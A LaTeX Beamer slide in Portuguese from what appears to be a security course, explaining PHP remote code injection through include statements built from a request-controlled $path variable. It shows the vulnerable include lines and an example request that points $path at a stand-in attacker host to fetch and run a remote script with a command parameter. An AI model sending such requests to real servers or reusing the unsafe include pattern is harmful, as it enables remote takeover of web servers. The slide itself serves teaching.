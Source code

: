 \begin{frame}[fragile]{Ataque de Injeção de Código (Code Injection)}
    \begin{itemize}
        \item \textbf{Definição:} Tipo de ataque onde a entrada inclui código que é posteriormente executado pelo sistema atacado.
        \item \textbf{Cenário (PHP):} Uso de variáveis para construir nomes de arquivos em scripts de inclusão.
              \begin{verbatim}
include $path . 'functions.php';
include $path . 'data/prefs.php';
        \end{verbatim}
        \item \textbf{Mecanismo da Falha:}
              \begin{itemize}
                  \item O script é chamado diretamente (burlando a intenção original).
                  \item Exploração de funcionalidades do PHP: atribuição de variáveis globais via requisição HTTP e comando \texttt{include} aceitando URLs remotas.
              \end{itemize}
        \item \textbf{Exemplo de Ataque (Remote Code Injection):}
              \begin{verbatim}
GET /calendar/embed/day.php?path=http://hacker.site/hack.txt?&cmd=ls
        \end{verbatim}
        \item \textbf{Resultado:} A variável \texttt{\$path} recebe a URL do atacante, e o código contido no arquivo remoto é executado com os privilégios do servidor Web.
    \end{itemize}
\end{frame}

